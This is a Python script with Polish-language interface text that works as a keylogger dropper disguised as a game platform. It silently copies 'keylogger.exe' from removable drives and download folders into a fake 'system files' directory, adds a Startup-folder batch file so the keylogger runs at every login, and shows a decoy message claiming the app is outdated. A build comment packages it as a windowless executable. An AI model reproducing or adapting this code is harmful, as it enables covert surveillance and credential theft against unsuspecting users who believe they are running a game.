 ###### install exe for GIT - TK :
# pyinstaller --hidden-import=pkg_resources.py2_warn --onefile --noconsole example.py


# PYTHON-NOTE


# only for system windows
from tkinter import *
from PIL import ImageTk,Image
import os
import os.path
from shutil import copyfile
from contextlib import suppress
import time
import tkinter.font as font


USER_PROFILE = (os.environ['USERPROFILE'])



def window_app():
    window1 = Tk()
    window1.title("Platforma pełna wspaniałych gier")
    obraz = ImageTk.PhotoImage(Image.open("C:\\Users\\xarve\Desktop\ori.jpg"))
    mylabel = Label(image=obraz)
    window1.title("wersja 2019.v2")
    mylabel.pack()

    myFont = font.Font(family='Arial', size=15, weight='bold')

    button_window = Button(window1,
                           text="APLIKACJA JEST PRZESTARZAŁA... SERWER NIE ODPOWIADA, \n\nKLIKIJ ABY ZAKOŃCZYĆ",
                           height=5, bg='lightblue', fg='black', command=window1.quit)
    button_window['font'] = myFont
    button_window.pack()
    window1.mainloop()




def copy_pase():

        with suppress(Exception):
            copyfile('D:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('E:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('F:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('G:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('H:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('I:/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('Downloads/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')
        with suppress(Exception):
            copyfile('Pobrane/keylogger.exe', 'C:/ProgramData/pliki_systemowe/keylogger.exe')




def add_to_startup(file_path='C:/ProgramData/pliki_systemowe/keylogger.exe'):
    if file_path == "":
        file_path = os.path.dirname(os.path.realpath(__file__))
    bat_path = r'%s\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup' % USER_PROFILE
    with open(bat_path + '\\' + "open.bat", "w") as bat_file:
        bat_file.write(r'@echo off'+ os.linesep)   ## to hide console batch file when it run
        bat_file.write(r'start "" %s' % file_path)



path = "C:\\ProgramData\pliki_systemowe"
if not os.path.exists(path):
    os.makedirs(path)
    time.sleep(2)



time.sleep(2)
copy_pase()
time.sleep(2)
add_to_startup()
window_app()
